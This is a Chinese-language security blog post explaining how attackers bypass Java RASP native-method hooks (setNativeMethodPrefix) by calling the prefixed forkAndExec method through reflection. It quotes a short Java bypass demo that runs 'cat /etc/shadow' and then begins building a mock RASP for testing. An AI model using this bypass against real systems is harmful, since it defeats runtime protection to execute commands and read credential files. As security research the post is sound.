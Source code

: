 
# Bypass RASP NativeMethodPrefix 学习

原创 yzddMr6

[↓↓↓](javascript:)  
  
网络安全回收站  
  
[↑↑↑](javascript:)

*2023-12-28 18:06* *发表于浙江*

## 背景

众所周知，Java 的 RASP 是没有办法直接 Hook Native 方法的，但确实有这个场景的需求。于是 JDK 官方出了一个 java.lang.instrument.Instrumentation#setNativeMethodPrefix，在 Java 方法映射 C++ 方法的时候加一个前缀，这样相当于创建一个了原有 Native 方法的代理，从而实现了 Hook Native 方法。

jrasp 应该是最早公开介绍该技术用于 RASP 防御的（经 su18 师傅提醒，严谨一些）：https://www.jrasp.com/guide/technology/native\_method.html。

但是当攻击者有一定代码执行权限的时候，还是可以绕过。以命令执行来说，原来的 Native 方法为 forkAndExec，加个前缀变成 prefixforkAndExec，那么我们只需要反射调用 prefixforkAndExec 这个新的方法名即可。

turn1tup 师傅给出了一个绕过的 demo，核心逻辑为通过反射拿到真正的 native 方法，即可绕过 RASP 对于命令执行的 hook:https://github.com/turn1tup/JvmRaspBypass/blob/main/src/main/java/com/test/RaspExample.java

```plain
try {
    Class<?> clazz = Class.forName("java.lang.UNIXProcess");

    //cmd2,bypass jrasp native hook
    for (Method m : clazz.getDeclaredMethods()) {
        if (m.getName().endsWith("forkAndExec")&&!m.getName().equals("forkAndExec")) {
            m.setAccessible(true);
            System.out.println("prefix native method : "+m.getName());
            Cmd.linuxCmd(new String[]{"/bin/bash","-c","cat /etc/shadow && touch /tmp/shadow2"},m);
        }
    }
} catch (Exception ignore) {
    ignore.printStackTrace();
}
```

最近在实际攻防中发现该方式挺有用的，因此本人进行扩展，实现了一个 Win/Linux 下通用的，自动绕过 MethodPrefix 的，可回显的，反射 Native 方法执行命令的 JSP Demo。

## 搞一个简单的 RASP

为了测试，先模拟一个 setNativeMethodPrefix 的 RASP，参考 https://www.secrss.com/articles/49044，主要逻辑为：1.移除想要 hook 的 native 方法。2.增加一个 native 方法，这个方法和 hook 的 native 方法除了方法名增加 prefix，其他相同。3.增加一个和 hook native 方法同名的 java 方法（除了 native modifier 之外其他和 hook native 方法相同），其中返回时调用 prefix native 方法。这里为了简单起见直接 throw Exception，把命令执行给干掉。
